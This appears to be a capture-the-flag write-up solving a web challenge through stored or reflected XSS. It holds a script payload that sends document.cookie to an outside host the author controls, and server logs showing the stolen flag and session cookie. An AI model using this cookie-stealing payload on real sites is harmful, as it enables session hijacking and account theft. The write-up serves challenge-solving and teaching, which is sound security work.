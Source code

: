 You need to get the flag from https://govagriculture.web.ctfcompetition.com/

- It seems as there is no XSS Protection, so i tryed following text:
> <script>
> var xhttp = new XMLHttpRequest();
> xhttp.open("GET", "https://mydomain.com/ctf", true);
> xhttp.send();
> </script>

- Looking at the logs, I can see that the code is being executed:
> [22/Jun/2019:23:29:09 +0200] "GET /ctf HTTP/1.1" 200 8416 "https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+xhttp+%3D+new+XMLHttpRequest%28%29%3B%0D%0Axhttp.open%28%22GET%22%2C+%22https%3A%2F%2Fmydomain.com%2Fctf%22%2C+true%29%3B%0D%0Axhttp.send%28%29%3B%0D%0A%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

- So lets try to get the cookies

> <script>
> var xhttp = new XMLHttpRequest();
> xhttp.open("GET", "https://mydomain.com/ctf?" + document.cookie, true);
> xhttp.send();
> </script>

- An there is our flag in the logs:

> [22/Jun/2019:23:32:34 +0200] "GET /ctf?flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};%20session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV HTTP/1.1" 200 8364 "https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+xhttp+%3D+new+XMLHttpRequest%28%29%3B%0D%0Axhttp.open%28%22GET%22%2C+%22https%3A%2F%2Fmydomain.com%2Fctf%3F%22+%2B+document.cookie%2C+true%29%3B%0D%0Axhttp.send%28%29%3B%0D%0A%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

> CTF{8aaa2f34b392b415601804c2f5f0f24e}